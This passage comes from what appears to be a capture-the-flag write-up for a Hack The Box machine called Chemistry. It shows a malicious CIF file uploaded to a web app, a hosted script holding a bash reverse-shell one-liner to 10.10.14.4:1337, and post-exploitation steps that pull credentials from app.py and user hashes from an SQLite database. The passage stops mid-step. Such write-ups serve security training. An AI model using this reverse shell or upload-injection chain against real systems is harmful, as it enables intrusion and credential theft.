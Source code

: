 ```cif

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Now let's upload it:

{{<figure src="/img/htb/chemistry/upload_cif.png" position=center caption="Uploading malicious CIF file">}}

After clicking on upload, we see that we can view it or delete it:

{{<figure src="/img/htb/chemistry/after_upload.png" position=center caption="File uploaded">}}

If we click on view, we get a 500 Internal server error, and we don't get a reverse shell.

{{<figure src="/img/htb/chemistry/500_err.png" position=center caption="500 Internal server error">}}

However if we replace the command with just `nc <IP> <PORT>`, we get a connection. 

In this case, we can upload the reverse shell, and then execute it

{{<figure src="/img/htb/chemistry/hosting_revshell.png" position=center caption="Hosting reverse shell with python http server">}}

The file `shell.sh` contains the following:

```bash
bash -i >& /dev/tcp/10.10.14.4/1337 0>&1
```

After, uploading and clicking on view, we see the file was downloaded:

{{<figure src="/img/htb/chemistry/web_server_hit.png" position=center caption="Hit on python http server">}}

We can now change the command, so that our reverse shell is executed

{{<figure src="/img/htb/chemistry/exec_shell.png" position=center caption="Changing the command in cif file">}}

After re-uploading the file, and then clicking on View, we finally get a shell back:

{{<figure src="/img/htb/chemistry/got_shell.png" position=center caption="Reverse shell">}}

## Foothold & User Flag
In our current directory, we find the source code of the website in `app.py` which also contains credentials:

{{<figure src="/img/htb/chemistry/db_pass.png" position=center caption="Credentials in app.py">}}

After looking around some more, we find a the sqlite database inside the `instance` directory.

```
app@chemistry:~/instance$ file database.db
database.db: SQLite 3.x database, last written using SQLite version 3031001
```

Looking at the contents of this file with `strings`, we are able to get the hashes of the users:
